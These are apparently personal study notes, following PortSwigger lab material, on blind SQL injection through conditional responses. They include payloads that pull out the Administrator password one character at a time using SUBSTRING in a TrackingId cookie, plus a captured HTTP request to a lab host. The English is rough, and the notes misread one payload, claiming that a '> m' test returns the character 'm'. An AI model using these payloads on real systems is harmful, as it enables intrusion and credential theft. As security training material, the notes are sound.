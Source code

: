 `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user.

#### Note

The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


## What is blind SQL injection?
- when application not return result ->just result A process executed on data Like whether the product is available or not.
- we can't exploiting with `UNION`
Exploiting blind SQL injection by triggering conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
```sql
`…xyz' AND '1'='1 
…xyz' AND '1'='2`
```
- we two request
- request one because  a true conditional web application return `welcome back`
- but request two not a true conditional web app not return `welcome back`
- You can determine the password for this user by sending a series of inputs to test the password one character at a time.
- `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
- You can determine the password for this user by sending a series of inputs to test the password one character at a time.
```sql
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
```
- **What This Does**
- This extracts the **first character** of the password for the `Administrator` user -> m

 - character 2 finding
 ```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 2, 1) > 'a
```

> [!note] note
> The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the SQL injection cheat sheet.
- #### Practice in [lab](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses)
- ![[p-blind1-1.png]]
```http
GET /login HTTP/2
Host: 0a4600130431e87880388612001700b1.web-security-academy.net
Cookie: TrackingId=QWPRSTUGGGBjEqaj; session=EtKXcSR8E04dpneBCqXhAwlG4Mx1Y5x7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4600130431e87880388612001700b1.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```